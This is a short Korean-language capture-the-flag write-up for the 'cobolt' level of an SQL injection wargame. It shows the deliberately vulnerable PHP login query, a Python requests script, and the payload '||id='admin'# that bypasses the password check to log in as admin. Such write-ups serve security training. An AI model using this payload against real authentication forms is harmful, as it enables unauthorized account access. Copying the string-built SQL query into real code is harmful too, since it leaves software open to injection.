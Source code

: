 
## COBOLT Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
$query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("cobolt");  
elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";  
highlight_file(__FILE__);  
?>
```
### Exploit 코드
``` python
import requests

url = 'http://los.rubiya.kr/cobolt_b876ab5595253427d3bc34f1cd8f30db.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {'id' : "'||id='admin'#"}

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] COBOLT Clear!")
```
1번 문제는 id의 존재만 확인했지만 이번 문제는 id가 admin이어야 한다.  
따라서 id에 **'||id='admin'#** 을 넣어주었다.
``` php
select id from prob_cobolt where id=''||id='admin'#' and pw=''
```
쿼리문이 위와 같이 되고 id가 admin이 되어 문제가 풀린다.